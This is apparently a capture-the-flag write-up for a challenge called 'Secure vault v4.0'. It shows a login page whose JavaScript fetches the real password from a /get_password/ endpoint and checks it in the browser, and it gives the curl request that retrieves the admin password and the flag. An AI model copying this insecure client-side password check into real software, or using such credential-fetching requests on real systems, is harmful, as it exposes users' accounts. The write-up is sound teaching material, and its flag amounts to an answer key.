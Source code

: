 # Secure vault v4.0 writeup
There is a login form in the given website. SQL-injections don't seem to work, so let's analyse website.

There are no cookies, no html secrets. The only thing to look at is a login form. Here is html code of it:

```html
<form action="" method="post" class="justify-content-center" id="login-form" onsubmit="return validateForm();">
	<p>
	 	<label class="form-check-label" for="username" style="align:center">Username</label>
		<br>
		<input id="form-username" name="username" required type="text" value=""> </p>
	<p>
		<label class="form-check-label" for="password" style="align:center">Password</label>
		<br>
		<input id="form-password" name="password" required type="password" value="">
	</p>
	<p>
		<input class="btn btn-danger" id="form-button" name="submit" type="submit" value="Login">
	</p>
</form>
```

According to the `<form>`, `validateForm()` is a handler for this form. Here is it:

```js
var isCorrect = false;

function checkPassword() {
    let url = "/get_password/";
    let xhr = new XMLHttpRequest();

    xhr.open("GET", url + $("#form-username")[0].value + "/", false);
    xhr.onloadend = function () {
        let response = xhr.responseText;
        if (response == "INCORRECT_USERNAME") {
            $("#error-msg")[0].innerHTML = "Incorrect username."
        }
        else {
            let currPassword = $("#form-password")[0].value;
            if (currPassword == response) {
                isCorrect = true;
            }
            else {
                $("#error-msg")[0].innerHTML = "Incorrect password.";
            }
        }

    };

    xhr.setRequestHeader("Content-Type", "text/plain");
    xhr.send();
    return true;
}

function validateForm() {
    Promise.all(checkPassword())
    if (isCorrect) {
        isCorrect = false;
        return true;
    }
    return false;  
}
```

Function gets the password of the given user via GET-query to the `/get_password/` endpoint. After that, the original password is compared to the one user entered. So, we may try to get the admin password:

```bash
$ curl http://ctf.li2sites.ru:21011/get_password/admin/
c&azl+1xYqmNtxA#a?q
```

Having logged in as `admin`, we get:

```html
<div class="p-3 mb-2 bg-secondary text-white row justify-content-center">
	li2CTF{H000000W????_M4n_1'll_b3_b4ck_1n_4_y34r_w17h_MUCH_b3773r__s3cUr1ty!}
</div>
```

Flag: `li2CTF{H000000W????_M4n_1'll_b3_b4ck_1n_4_y34r_w17h_MUCH_b3773r__s3cUr1ty!}`
